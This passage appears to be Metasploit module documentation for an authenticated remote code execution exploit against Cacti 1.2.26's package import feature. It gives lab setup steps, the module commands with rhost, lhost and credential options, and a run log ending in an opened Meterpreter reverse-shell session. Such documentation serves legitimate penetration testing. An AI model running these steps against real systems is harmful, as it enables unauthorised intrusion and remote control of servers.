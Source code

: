 Note that other versions can be installed this way by changing the `tar` file name in `Dockerfile` (`cacti-1.2.26.tar.gz`).


### Cacti on Windows
Download and run a Cacti installer from
[here](https://files.cacti.net/cacti/windows/Archive/). The `admin` password
should be put in a file called `Cacti-Passwords.txt` by the installer, which is
in the same location the installer was run.
Follow the same installation steps as for the Docker installation.


### Setup a new user
- Login with the `admin` user (password: `admin`)
- Go to `Configuration` > `Users`
- Click on the `+` sign
- Enter the `User Name`, `Password` and check the `Enabled` option.
- Click `Create`
- Go to the `Permissions` tab and set the `Import Templates` permission in `Template Editor`
- Click `Save`


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use multi/http/cacti_package_import_rce`
1. Do: `set target <target>`
1. Do: `run rhost=<target address> rport=<target port> lhost=<local address> username=<username> password=<password>`
1. You should get a shell.

## Options

### USERNAME
The user to login with (default `admin`).

### PASSWORD
The password to login with (default `admin`)


## Scenarios

### Cacti version 1.2.26 on Docker installation
- Target 0 (PHP)
```
msf exploit(multi/http/cacti_package_import_rce) > exploit verbose=true rhosts=127.0.0.1 rport=8080 lhost=192.168.101.1 username=msfuser password=12345678

[*] Started reverse TCP handler on 192.168.101.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.26
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Checking permissions to access `package_import.php`
[+] The target appears to be vulnerable.
[*] Uploading the package
[*] Triggering the payload
[*] Sending stage (39927 bytes) to 192.168.101.1
[+] Deleted /var/www/html/cacti/resource/jGbP1O.php
[*] Meterpreter session 1 opened (192.168.101.1:4444 -> 192.168.101.1:62197) at 2024-05-22 15:28:24 +0200
```